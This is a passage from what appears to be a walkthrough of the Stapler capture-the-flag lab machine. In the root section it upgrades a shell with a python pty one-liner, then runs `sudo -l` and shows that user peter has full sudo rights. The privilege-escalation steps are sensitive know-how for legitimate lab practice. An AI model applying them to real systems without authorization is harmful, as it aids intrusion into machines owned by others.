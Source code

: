 ![](images/stapler33.png)

And quickly fix my shell with `python3 -c 'import pty;pty.spawn("/bin/bash")'`

<br>

## Root

We saw this in our home directory earlier, let's see what we can run:

```
-rw-r--r--  1 peter peter     0 Jun  3  2016 .sudo_as_admin_successful
```

`sudo -l`

```

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for peter: 
Matching Defaults entries for peter on red:
    lecture=always, env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User peter may run the following commands on red:
    (ALL : ALL) ALL
```

